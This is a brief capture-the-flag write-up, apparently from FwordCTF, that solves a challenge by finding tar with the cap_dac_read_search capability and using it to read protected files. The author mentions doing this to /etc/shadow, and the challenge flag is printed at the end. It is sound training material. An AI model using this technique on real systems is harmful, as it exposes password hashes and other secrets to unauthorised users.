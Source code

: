 # CapiCapi 

when connecting to the service i tried most of the common priv esc techniques but none worked however. I then googled the briefing and after quite a bit of endless googling found something called linux capabilities that could be exploited. I ended up finding this website about it:
https://medium.com/@int0x33/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099

After running the check to see if this could be exploited on our system:
```
user1@d963015da1fa:/$ getcap -r / 2>/dev/null    <-- command we run                                                                        /usr/bin/tar = cap_dac_read_search+ep <-- our response
```
this shows the same thing as the website so we know it should be able to be exploited.

We see that the binary tar has the privelages to read anything on the file system. 

We attempt the example on /etc/shadow just like in the website and then go on to do the same thing on the flag.txt file:
```bash
user1@d963015da1fa:/tmp$ tar -cvf flag.tar /home/user1/flag.txt
tar: Removing leading `/' from member names
/home/user1/flag.txt
user1@d963015da1fa:/tmp$ tar -xvf flag.tar
```
We then go into the `/tmp/home/user1` directory and read the `flag.txt` file

#### FwordCTF{C4pAbiLities_4r3_t00_S3Cur3_NaruT0_0nc3_S4id}
